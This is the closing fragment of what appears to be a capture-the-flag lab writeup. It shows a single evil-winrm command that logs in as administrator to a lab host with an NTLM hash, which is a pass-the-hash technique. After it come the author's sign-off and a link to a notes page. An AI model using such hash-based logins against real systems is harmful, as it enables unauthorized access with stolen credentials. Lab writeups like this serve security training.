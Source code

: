 ```bash
evil-winrm -i 10.10.11.61 -u administrator -H '**06dc954d32cb91ac2831d67e3e12027f**'
```

---

### `Author : PaiN`

### Thanks For reading this whole Writeup ! i Hope you Like it

[commands](https://www.notion.so/commands-1c673e8e2181804b88b4d93b7e11e52b?pvs=21)